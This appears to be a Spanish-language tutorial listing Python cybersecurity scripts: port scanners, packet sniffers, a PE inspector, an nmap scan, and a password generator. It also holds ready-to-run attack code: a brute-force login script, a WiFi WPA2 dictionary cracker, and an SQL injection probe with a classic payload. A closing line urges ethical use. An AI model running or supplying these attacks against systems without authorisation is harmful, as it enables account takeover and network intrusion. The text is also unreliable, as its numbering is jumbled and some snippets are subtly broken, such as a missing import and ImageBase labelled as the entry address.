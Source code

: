 Varios scripts interesantes en Python que son útiles para tareas relacionadas con la ciberseguridad. Aquí hay algunos ejemplos:

1. **Escaneo de Puertos con `socket`**:
   Este script utiliza la biblioteca `socket` para escanear puertos en una dirección IP específica.

   ```python
   import socket
   
   target = input("Ingrese la dirección IP a escanear: ")
   
   try:
       for port in range(1, 1025):
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           socket.setdefaulttimeout(1)
           
           resultado = s.connect_ex((target, port))
           if resultado == 0:
               print("Puerto {}: Abierto".format(port))
           s.close()
   
   except KeyboardInterrupt:
       print("\nEscaneo detenido.")
   except socket.gaierror:
       print("El nombre del host no pudo ser resuelto.")
   except socket.error:
       print("No se pudo conectar al servidor.")
   ```

2. **Fuerza Bruta para Inicios de Sesión con `requests`**:
   Este script intenta realizar un ataque de fuerza bruta a un formulario de inicio de sesión usando la biblioteca `requests`.

   ```python
   import requests
   
   target_url = "http://example.com/login"
   data_dict = {"username": "admin", "password": "", "login": "submit"}
   
   with open("passwords.txt", "r") as wordlist_file:
       for line in wordlist_file:
           word = line.strip()
           data_dict["password"] = word
           response = requests.post(target_url, data=data_dict)
           if "Login failed" not in response.content.decode():
               print("[+] Contraseña encontrada: {}".format(word))
               break
   ```

3. **Sniffing de Paquetes con `scapy`**:
   `Scapy` es una poderosa herramienta para manipulación y captura de paquetes de red. Puedes realizar operaciones como sniffing, enviar paquetes personalizados, etc.

   ```python
   from scapy.all import *
   
   def packet_callback(packet):
       if packet.haslayer(HTTPRequest):
           print(packet.show())
   
   sniff(prn=packet_callback, store=0)
   ```

4. **Análisis de Archivos PE (Windows) con `pefile`**:
   `pefile` es una biblioteca que te permite leer información de archivos ejecutables de Windows (PE files). Puedes utilizarla para analizar malware o entender mejor los binarios de Windows.

   ```python
   import pefile
   
   pe = pefile.PE("archivo_ejecutable.exe")
   
   print("Dirección de entrada: 0x%x" % pe.OPTIONAL_HEADER.ImageBase)
   
   for section in pe.sections:
       print(section.Name, hex(section.VirtualAddress), hex(section.Misc_VirtualSize), section.SizeOfRawData)
   ```

5. **Ataque de Diccionario de WiFi con `pywifi`**:
   `pywifi` te permite interactuar con dispositivos WiFi. Este script intenta realizar un ataque de diccionario a una red WiFi.

   ```python
   import pywifi
   from pywifi import const
   import time
   
   wifi = pywifi.PyWiFi()
   iface = wifi.interfaces()[0]
   
   def connect_wifi(ssid, password):
       iface.scan()
       time.sleep(2)
       scan_results = iface.scan_results()
       for result in scan_results:
           if result.ssid == ssid:
               profile = pywifi.Profile()
               profile.ssid = ssid
               profile.auth = const.AUTH_ALG_OPEN
               profile.akm.append(const.AKM_TYPE_WPA2PSK)
               profile.cipher = const.CIPHER_TYPE_CCMP
               profile.key = password
               iface.remove_all_network_profiles()
               temp_profile = iface.add_network_profile(profile)
               iface.connect(temp_profile)
               time.sleep(5)
               if iface.status() == const.IFACE_CONNECTED:
                   return True
               else:
                   return False
   
   ssid = input("Ingrese el nombre de la red WiFi: ")
   wordlist = input("Ruta al archivo de diccionario: ")
   
   with open(wordlist, "r") as file:
       passwords = file.readlines()
       for password in passwords:
           password = password.strip()
           print("Probando: " + password)
           if connect_wifi(ssid, password):
               print("Contraseña encontrada: " + password)
               break
   ```

6. **Generador de Contraseñas Aleatorias**:
   Este script genera contraseñas aleatorias seguras.

   ```python
   import random
   import string
   
   length = 12
   password = ''.join(random.choices(string.ascii_letters + string.digits + string.punctuation, k=length))
   print(f"Contraseña generada: {password}")
   ```
   11. **Escaneo de Puertos con `socket`**:
    Este script realiza un escaneo de puertos en un host específico.

    ```python
    import socket
    
    target_host = "example.com"
    target_ports = [21, 22, 80, 443, 3389]  # Puedes agregar más puertos a la lista
    
    for port in target_ports:
        try:
            socket.setdefaulttimeout(1)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            result = s.connect_ex((target_host, port))
            if result == 0:
                print(f"Puerto {port} abierto")
            s.close()
        except KeyboardInterrupt:
            print("\nEscaneo de puertos cancelado")
            break
        except socket.error:
            print(f"No se pudo conectar al puerto {port}")
    ```


7. **Sniffing de Paquetes con `scapy`**:
    Este script captura paquetes de red en una interfaz específica.

    ```python
    from scapy.all import sniff
    
    def packet_handler(packet):
        print(packet.summary())
    
    interface = "eth0"  # Nombre de la interfaz de red, puede variar según tu sistema
    
    sniff(iface=interface, prn=packet_handler, count=10)  # Captura 10 paquetes
    ```

8. **Ataque de Inyección SQL con `requests`**:
    Este script realiza un ataque de inyección SQL en una URL vulnerable.

    ```python
    import requests
    
    target_url = "http://example.com/vulnerable.php?id=1"
    payload = "' OR '1'='1'; --"
    
    response = requests.get(target_url + payload)
    
    if "Error de SQL" in response.text:
        print("Vulnerabilidad de inyección SQL encontrada")
    else:
        print("No se encontró vulnerabilidad de inyección SQL")
    ```

8. **Escaneo de Vulnerabilidades con `Nmap`**:
    Este script utiliza la biblioteca `python-nmap` para realizar un escaneo de vulnerabilidades en un host.

    ```python
    import nmap
    
    target_host = "example.com"
    
    scanner = nmap.PortScanner()
    scanner.scan(target_host, arguments="-sV -O")
    
    for host in scanner.all_hosts():
        print(f"Host: {host}")
        print(f"Estado: {scanner[host].state()}")
        for proto in scanner[host].all_protocols():
            print(f"Protocolo: {proto}")
            ports = scanner[host][proto].keys()
            for port in ports:
                print(f"Puerto: {port}, Estado: {scanner[host][proto][port]['state']}")
    ```

Recuerda siempre utilizar estas herramientas y scripts de manera ética y en un entorno legal. El uso inadecuado de estas herramientas puede ser ilegal y violar la privacidad de otros.